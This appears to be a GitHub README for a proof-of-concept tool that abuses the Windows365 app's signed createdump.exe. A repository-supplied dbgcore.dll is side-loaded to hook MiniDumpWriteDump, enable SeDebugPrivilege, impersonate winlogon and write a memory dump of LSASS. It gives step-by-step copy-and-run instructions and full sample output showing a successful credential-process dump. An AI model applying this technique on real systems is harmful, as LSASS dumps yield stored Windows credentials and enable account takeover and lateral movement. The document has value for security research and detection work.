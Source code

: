 ** WindowsAPP LSASS dump Proof of Concepot **

How to use:

1) copy createdump from WindowsApp folder to a folder of choice (`copy C:\Program Files\WindowsApps\MicrosoftCorporationII.Windows365_2.0.285.0_x64__8wekyb3d8bbwe\wnc\createdump.exe .`)
2) place `dbgcore.dll` from this repo in the same folder
3) execute createdump

Output should be something like this:
```
c:\work\_createdump>createdump.exe
WindowsApp PoC by Remko Weijnen
(ab)uses createdump tool from "The WindowsApp" to create an LSASS dump

Successfully hooked OpenProcess
OpenProcess called
Attempting to enable SeDebugPrivilege...
SeDebugPrivilege successfully enabled!
Attempting to impersonate winlogon...
Successfully impersonated winlogon
[createdump] Writing minidump with heap for process 35828 to file C:\Users\me\AppData\Local\Temp\dump.35828.dmp
MiniDumpWriteDump called with:
  ProcessId: 35828
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41a25
ProcessId changed to LSASS (PID: 1512)
Loaded DbgHelp.dll from: C:\Windows\System32\DbgCore.dll
Calling original with:
  ProcessId: 1512
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41026
MiniDumpWriteDump result: Success
[createdump] Dump successfully written in 270ms
DLL unloading, hooks removed.
```
